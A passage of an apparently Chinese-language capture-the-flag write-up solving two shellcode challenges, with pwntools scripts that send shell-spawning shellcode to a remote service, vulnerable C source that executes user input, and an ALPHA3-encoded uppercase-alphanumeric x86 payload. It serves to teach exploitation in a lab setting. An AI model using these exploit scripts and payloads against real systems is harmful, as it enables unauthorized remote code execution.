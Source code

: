 这里可以直接执行用户输入，因此只需要写入 `shellcode` 即可：

```python
from pwn import *

context(arch='amd64', os='linux', log_level='DEBUG')

# p = process('./chall1')
p = remote('202.38.93.241', 10000)

p.recvuntil(':')
p.sendline('token') # token

p.send(asm(shellcraft.sh()))

p.interactive()
```

### 2

```c
// gcc -m32 -z execstack -fPIE -pie -z now chall2.c -o chall2
int main() {
    char buf[0x200];
    int n, i;
    n = read(0, buf, 0x200);
    if (n <= 0) return 0;
    for (i = 0; i < n; i++) {
        if(!((buf[i] >= 65 && buf[i] <= 90) || (buf[i] >= 48 && buf[i] <= 57))) return 0;
    }
    ((void(*)(void))buf)();
}
```

这题在上一题的基础上限制了输入字符必须是大写字母或数字，并且是基于 x86 的。可以用类似 [ALPHA3](https://github.com/SkyLined/alpha3) 的工具对 `shellcode` 进行转换。先将 `shellcode` 写入文件：

```python
from pwn import *

with open('shellcode.bin', 'w') as f:
  f.write(asm(shellcraft.sh()))
```

随后使用 ALPHA3 进行转化：

```shell
$ py -2 ALPHA3.py x86 ascii uppercase eax --input="shellcode.bin"
```

得到的结果就是新的 payload。

```python
from pwn import *

context.log_level = 'DEBUG'

#p=process('./chall2')
p = remote('202.38.93.241', 10002)

p.recvuntil(':')
p.sendline('token') # token

p.send('PYVTX10X41PZ41H4A4I1TA71TADVTZ32PZNBFZDQC02DQD0D13DJE2O0Z2G7O1E7M04KO1P0S2L0Y3T3CKL0J0N000Q5A1W66MN0Y0X021U9J622A0H1Y0K3A7O5I3A114CKO0J1Y4Z5F06')

p.interactive()
```
